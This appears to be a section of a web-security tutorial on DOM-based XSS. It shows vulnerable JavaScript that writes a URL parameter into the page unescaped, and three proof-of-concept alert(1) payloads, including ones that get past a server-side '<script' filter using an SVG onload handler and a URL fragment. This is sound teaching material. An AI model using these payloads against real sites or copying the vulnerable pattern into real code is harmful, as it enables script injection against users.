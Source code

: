 
#### 1.4. DOM XSS

JS code:
```
if (document.location.href.indexOf("default=") >= 0) {
	// user input
	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");	
}
```
This will run in the user's browser. The value of `default` parameter in the URL will be used to dynamically build the drop-down menu via `<option>` HTML tag. Valid HTML tag `<option value="English">English</option>` will be produced using `default=English`.

##### Example 1:

Payload:
```
?default=%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E
```

DOM:
```html
<option value="%3C/option%3E%3Cscript%3Ealert(1)%3C/script%3E"></option><script>alert(1)</script>
```

##### Example 2:

Payload:
```
?default=%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E
```

DOM:
```html
<option value="%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E"></option></select><svg onload="alert(1)">
```

PHP code:
```php
if (stripos ($_GET['default'], "<script") !== false) {
	header("Location: index.php");
	exit;
}
```

##### Example 3:

Payload - URL components after `#` will not be delivered to the server:
```
?default=English#%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E
```

DOM:
```html
<option value="English#%3C/option%3E%3C/select%3E%3Csvg%0Conload=alert(1)%3E">English#</option></select><svg onload="alert(1)">
```
